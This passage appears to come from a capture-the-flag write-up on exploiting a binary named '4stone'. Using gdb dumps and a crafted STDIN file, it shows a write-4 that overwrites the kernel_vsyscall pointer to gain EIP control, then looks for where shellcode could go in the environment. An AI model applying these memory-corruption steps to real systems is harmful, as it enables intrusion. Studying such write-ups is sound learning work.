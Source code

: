     (gdb) x/40x $eax
    0x4022d6c0:     0x4022d6c0      0x4022db88      0x4022d6c0      0x00000000
    0x4022d6d0:     0x40022414      0x00000000      0x00000000      0x00000000
    (gdb) x/5i 0x40022414
       0x40022414 <__kernel_vsyscall>:      push   ecx
       0x40022415 <__kernel_vsyscall+1>:    push   edx
       0x40022416 <__kernel_vsyscall+2>:    push   ebp
       0x40022417 <__kernel_vsyscall+3>:    mov    ebp,esp
       0x40022419 <__kernel_vsyscall+5>:    sysenter
Excellent, now we know where to overwrite (0x4022d6d0 - the location of the pointer to kernel_vsyscall()). Overwriting that value gives us EIP control shortly after the call to _exit().

I crafted a file that I feed in via STDIN to cause the vulnerable condition:

    $ xxd 4stone2.txt
    0000000: 0a0a 6c6c 0a6c 0a68 0a68 0a0a 3635 3635  ..ll.l.h.h..6565
    0000010: 3635 3635 0a                             6565.
The 65656565 is read by scanf to be the "what" part of the write-4. Running this in gdb results in the following:

    (gdb) run 4022d6d0 < 4stone2.txt
    Program received signal SIGSEGV, Segmentation fault.
    ______________________________________________________________________________
         eax:000000FC ebx:00000000  ecx:402258C4  edx:65656565     eflags:00010296
         esi:00000000 edi:00000000  esp:BFFFF198  ebp:BFFFF1E8     eip:65656565
         cs:0073  ds:007B  es:007B  fs:0000  gs:0033  ss:007B    o d I t S z A P c
    [007B:BFFFF198]---------------------------------------------------------[stack]
    BFFFF1C8 : 2A 27 0A 53  F4 CA 09 00 - 2A 27 0A 53  86 E6 09 00 *'.S....*'.S....
    BFFFF1B8 : 65 65 65 65  D0 D6 22 40 - 00 00 00 00  02 00 00 00 eeee.."@........
    BFFFF1A8 : 10 00 00 00  C5 86 04 08 - E4 43 22 40  02 00 00 00 .........C"@....
    BFFFF198 : 14 EB 12 40  BA 98 04 08 - 00 00 00 00  B8 F1 FF BF ...@............
    [0073:65656565]---------------------------------------------------------[ code]
    => 0x65656565:  add    BYTE PTR [eax],al
       0x65656567:  add    BYTE PTR [eax],al
       0x65656569:  add    BYTE PTR [eax],al
       0x6565656b:  add    BYTE PTR [eax],al
       0x6565656d:  add    BYTE PTR [eax],al
       0x6565656f:  add    BYTE PTR [eax],al
    ------------------------------------------------------------------------------
    0x65656565 in ?? ()

Alright, now we have EIP control, where do we jump? If you remember from earlier, the stack and heap are RWX. However, there aren't many options to get data into them. 4stone enforces an argc of less than or equal to 2, so we can't pass them in on the command line, leaving environment variables as our only option.

It's at this point, that I got really frustrated because I thought I was going to have to spray a huge NOP sled and continuously jump blindly into the stack hoping for it to land...which is exactly what I did for a couple hours. I eventually gave up and started looking for other options.

In my naivety, I had overlooked that envp was around 0x100 bytes down the stack from the crashing  state.

    (gdb) x/20xw $esp+0x100
    0xbffff298:     0xbffff3f6      0xbffff401      0xbffff422      0xbffff435
    0xbffff2a8:     0xbffff441      0xbffff962      0xbffffe44      0xbffffe50
    0xbffff2b8:     0xbffffe66      0xbffffec4      0xbffffee5      0xbffffef4
    0xbffff2c8:     0xbfffff05      0xbfffff16      0xbfffff1f      0xbfffff27
    0xbffff2d8:     0xbfffff39      0xbfffff48      0xbfffff51      0xbfffff85
    (gdb) x/s 0xbffff3f6
    0xbffff3f6:     "SHELL=bash"
